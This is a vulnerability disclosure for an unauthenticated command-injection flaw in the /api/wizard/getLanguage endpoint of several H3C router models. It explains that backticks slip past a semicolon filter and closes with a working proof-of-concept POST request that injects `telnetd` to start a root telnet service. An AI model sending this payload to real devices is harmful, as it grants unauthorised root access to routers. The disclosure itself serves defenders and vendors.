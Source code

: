 # Information

**Vendor of the products:** H3C Technologies Co., Ltd.

**Vendor's website:** https://www.h3c.com/

**Reported by:** Zhao Jiang Ting(sta8r9@163.com)

**Affected products:** H3C Magic NX30 Pro\H3C NX400\H3C NX15\H3C R3010\H3C BE18000

**Affected firmware version:** <=V100R014 

**Firmware download address:** [H3C NX15V100R014](https://www.h3c.com/cn/d_202409/2263952_30005_0.htm)

# Overview

In the `H3C Magic` series products, `H3C Magic NX30 Pro` and `H3C NX400`and H3C NX15  and H3C R3010 and H3C BE18000 allow an attacker to send a specially crafted `POST` request to the `/api/wizard/getLanguage` route without authorization, enabling remote code execution with the highest privileges.



# Vulnerability details

When the route is `/wizard/getLanguage`, it can enter its handler function.

![image-20250317233830468](https://github-tupian.oss-cn-beijing.aliyuncs.com/20250317233830562.png)

`v14` is user-controllable. Although the `FCGI_CheckStringIfContainsSemicolon` function is used to filter dangerous characters, it fails to filter backticks, leading to command injection.

![image-20250314113946900](https://github-tupian.oss-cn-beijing.aliyuncs.com/20250317232620671.png)



# POC

```
POST /api/wizard/getLanguage HTTP/1.1
Host: 192.168.124.1
Content-Length: 11
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Origin: http://192.168.124.1
Referer: http://192.168.124.1/home
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

'`telnetd`'
```

